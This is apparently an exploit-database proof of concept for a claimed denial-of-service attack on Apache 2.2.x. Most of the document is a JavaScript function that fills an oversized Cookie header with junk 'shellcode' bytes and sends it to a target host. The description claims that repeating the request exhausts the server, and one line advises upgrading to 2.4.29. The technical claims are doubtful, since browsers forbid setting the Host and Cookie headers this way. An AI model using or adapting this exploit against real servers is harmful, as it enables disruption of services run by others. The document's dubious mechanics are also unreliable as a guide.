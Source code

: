 # apacheDOS-POC
Apache 2.2X denial of service HTTP header request 
# Exploit Title: Apache 2.2X denial of service HTTP header request 
# Date: 29-12-2017
# Software Link: https://httpd.apache.org
# Exploit Author: Jameel Nabbo
# Contact: jameelnabbo[AT]Gmail.com
# Website: https://uitsec.com
# Category: web servers
# Tested on: [Linux fedora]
# Version : 2.2.X
 
1. Description
   
Sending a crafted http header request that contain a dump shellcode in Cookie PARAM will result in printing 400 Bad request and the dump code, apache will display a message (Size of a request header field exceeds server limit) and will take sometime to handle the request, 
Sending multiple requests will results in denial of service.
 
   
2. Proof of Concept
 
//Our function that send http requests to the target host
function httpGet(target)
{

  var dumpShellCode = "0x30, 0x53, 0x76, 0x99, 0xbc, 0xd7, 0x2, 0x34," 
    + "0x39, 0x5e, 0x7b, 0xc8, 0xbd, 0xfa, 0xff, 0x5b,"
    + "0xa2, 0xe7, 0xa, 0x2d, 0x38, 0x51, 0x40, 0x62, "
    + "0xab, 0xd0, 0xf9, 0x6, 0x2f, 0x4c, 0x6d, 0x89, "
    + "0x14, 0x77, 0x5a, 0xbd, 0x68, 0x93, 0x6e, 0xd0,"
    + "0x1d, 0xd2, 0x5f, 0x6c, 0x59, 0x98, 0xf2, 0xd5,"
    + "0x68, 0x69, 0x50, 0x93, 0xa2, 0x7d, 0xbc, 0x1e,"
    + "0xf, 0x64, 0x3d, 0xaa, 0x8b, 0xe8, 0xc9, 0x25, "
    + "0x78, 0x1b, 0x3e, 0xe1, 0x84, 0x9f, 0x4a, 0x7c," 
    + "0x31, 0xf8, 0x1, 0xae, 0x57, 0x52, 0x77, 0x13, "
    + "0xea, 0x8d, 0x94, 0x17, 0x6e, 0xf9, 0x88, 0x2a,"
    + "0xe3, 0x88, 0xb1, 0x3e, 0x67, 0x4, 0x25, 0xc1, "
    + "0x5c, 0x3f, 0xe2, 0xc5, 0xb0, 0x75, 0x59, 0x36," 
    + "0xf7, 0xea, 0xd7, 0xe4, 0x91, 0x6e, 0x53, 0x2f," 
    + "0x4e, 0x11, 0xf8, 0xdb, 0xaa, 0x85, 0x84, 0x66,"
    + "0x47, 0x1c, 0xf5, 0xe2, 0xc3, 0xa0, 0x81, 0x7d," 
    + "0xa0, 0xe5, 0xc, 0x2f, 0x46, 0x47, 0x72, 0xa4, "
    + "0xa9, 0xce, 0xeb, 0x38, 0x2d, 0x6a, 0x6f, 0xcb,"
    + "0xb2, 0xd5, 0xfc, 0x1f, 0x36, 0x61, 0xd0, 0xf2," 
    + "0xbb, 0xe0, 0x49, 0x56, 0x3f, 0xf6, 0x14, 0x37," 
    + "0xe6, 0xe7, 0xca, 0x2d, 0x18, 0x83, 0x5e, 0xc0," 
    + "0xa5";
  
  //HTTP Request Var 
    var xmlHttp = new XMLHttpRequest();
    xmlHttp.open( "GET", "/", false ); // false for synchronous request
    
    //Now filling the headers information

    //Apache will respond in bad request with the Cookie infomation indicating that apache can't handle the request since its exceed header field limit
    xmlHttp.setRequestHeader("Cookie",dumpShellCode);
    xmlHttp.setRequestHeader("Connection","Keep-alive");
    xmlHttp.setRequestHeader("Host",target);

    //sending the request
    xmlHttp.send( null );
    return xmlHttp.responseText;
}

httpGet("127.0.0.1"); 

 

 
   
3. Solution:
   
Update to version 2.4.29
http://ftp.itu.edu.tr/Mirror/Apache//httpd/httpd-2.4.29.tar.bz2
